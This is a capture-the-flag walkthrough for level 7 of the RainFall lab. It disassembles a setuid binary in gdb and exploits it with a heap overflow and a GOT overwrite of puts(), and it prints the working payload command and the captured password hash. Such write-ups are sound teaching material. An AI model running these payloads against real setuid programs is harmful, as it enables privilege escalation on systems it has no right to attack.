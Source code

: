 # Level7

## Walkthrough

We list the files in the current home directory.

```bash
level7@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
level7@RainFall:~$ file level7
level7: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xaee40d38d396a2ba3356a99de2d8afc4874319e2, not stripped
```

The file is owned by **level8** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0804836c  _init
0x080483b0  printf
0x080483b0  printf@plt
0x080483c0  fgets
0x080483c0  fgets@plt
0x080483d0  time
0x080483d0  time@plt
0x080483e0  strcpy
0x080483e0  strcpy@plt
0x080483f0  malloc
0x080483f0  malloc@plt
0x08048400  puts
0x08048400  puts@plt
0x08048410  __gmon_start__
0x08048410  __gmon_start__@plt
0x08048420  __libc_start_main
0x08048420  __libc_start_main@plt
0x08048430  fopen
0x08048430  fopen@plt
0x08048440  _start
0x08048470  __do_global_dtors_aux
0x080484d0  frame_dummy
0x080484f4  m
0x08048521  main
0x08048610  __libc_csu_init
0x08048680  __libc_csu_fini
0x08048682  __i686.get_pc_thunk.bx
0x08048690  __do_global_ctors_aux
0x080486bc  _fini
```

There are 2 user-defined functions: `main()` and `m()` :

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:     push   ebp
   0x08048522 <+1>:     mov    ebp,esp
   0x08048524 <+3>:     and    esp,0xfffffff0
   0x08048527 <+6>:     sub    esp,0x20
   0x0804852a <+9>:     mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:    mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:    mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:    mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:    mov    edx,eax
   0x08048552 <+49>:    mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>:    mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>:    mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:    mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>:    mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>:    mov    DWORD PTR [eax],0x2
   0x08048573 <+82>:    mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:    call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:    mov    edx,eax
   0x08048581 <+96>:    mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:   mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:   mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:   add    eax,0x4
   0x0804858e <+109>:   mov    eax,DWORD PTR [eax]
   0x08048590 <+111>:   mov    edx,eax
   0x08048592 <+113>:   mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>:   mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:   mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:   mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:   call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:   mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:   add    eax,0x8
   0x080485ab <+138>:   mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:   mov    edx,eax
   0x080485af <+142>:   mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:   mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:   mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:   mov    DWORD PTR [esp],eax
   0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:   mov    edx,0x80486e9
   0x080485c7 <+166>:   mov    eax,0x80486eb
   0x080485cc <+171>:   mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:   mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:   call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:   mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:   mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:   mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    eax,0x0
   0x08048601 <+224>:   leave
   0x08048602 <+225>:   ret
End of assembler dump.
```

The `main()` function: 
- calls `malloc()` to allocate `0x8` bytes 4 times to and stores:
  - the first pointer to `[esp + 0x1c]`
  - the second pointer to `[esp + 0x1c] + 0x4`
  - the third pointer to `[esp + 0x18]`
  - the fourth pointer to `[esp + 0x18] + 0x4`
- calls `strcpy()` to copy `argv[1]` into `[esp + 0x1c] + 0x4`
- calls `strcpy()` to copy `argv[2]` into `[esp + 0x18] + 0x4`
- calls `fopen()` to open `/home/user/level8/.pass`
- calls `fgets()` to read 44 bytes of the previously opened file into `0x8049960`
- calls `puts()` to print `~~` on stdout

```
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   ebp
   0x080484f5 <+1>:     mov    ebp,esp
   0x080484f7 <+3>:     sub    esp,0x18
   0x080484fa <+6>:     mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:    call   0x80483d0 <time@plt>
   0x08048506 <+18>:    mov    edx,0x80486e0
   0x0804850b <+23>:    mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:    mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:    mov    DWORD PTR [esp],edx
   0x0804851a <+38>:    call   0x80483b0 <printf@plt>
   0x0804851f <+43>:    leave
   0x08048520 <+44>:    ret
End of assembler dump.
```

The `m()` function calls `printf()` with the `"%s - %d\n"` format string, passing the content of the address `0x8049960` to the `%s` specifier.

We use the `ltrace` command in order to track down the addresses of the allocated memory zones from `malloc()`.

```bash
level7@RainFall:~$ ltrace ./level7 
__libc_start_main(0x8048521, 1, 0xbffff714, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                                                                                          = 0x0804a008
malloc(8)                                                                                                                                          = 0x0804a018
malloc(8)                                                                                                                                          = 0x0804a028
malloc(8)                                                                                                                                          = 0x0804a038
strcpy(0x0804a018, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

The returned addresses are `0x804a008`, `0x804a018`, `0x804a028`, and `0x804a038`.

We draw a diagram of the heap.

![Diagram of allocated memory](./resources/level7_diagram1.png)

We confirm the inserted values by displaying a hexdump from the `0x804a008` address, before the calls to `strcpy()`.

```
(gdb) b *0x08048588
Breakpoint 5 at 0x8048588
(gdb) r AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 5, 0x08048588 in main ()
(gdb) x/16wx 0x804a008
0x804a008:      0x00000001      0x0804a018      0x00000000      0x00000011
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      0x0804a038      0x00000000      0x00000011
0x804a038:      0x00000000      0x00000000      0x00000000      0x00020fc1
```

If we pay attention to the `strcpy()` calls, we notice that the `dest` arguments are respectively `[esp + 0x1c] + 0x4` (`0x0804a00c`) and `[esp + 0x18] + 0x4` (`0x0804a02c`).  
This is good news for us because it means we can overwrite the second address stored on the heap using a **buffer overflow** thanks to the first `strcpy()`. But we also have to replace the call to `puts()` with `m()` using a **GOT overwrite** exploit.

```
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:     push   0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

The address of `puts()` in the GOT is `0x8049928`.

We calculate the difference between `0x804a02c`, the address which contains the value we wanna overwrite, and `0x0804a018`, the `dest` of the first `strcpy()` = `0x14` (20).  
The goal is to insert a payload of 20 bytes, followed by the address of `puts()` in the GOT, as `argv[1]`, and the address of `m()` as `argv[2]`.

```bash
level7@RainFall:~$ ./level7 $(python -c "print('A' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08\x00')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1741352227
```

## Resources

- [Binary Exploitation: Heap Overflow to Overwrite GOT](https://medium.com/@0xwan/binary-exploitation-heap-overflow-to-overwrite-got-d3c7d97716f1)
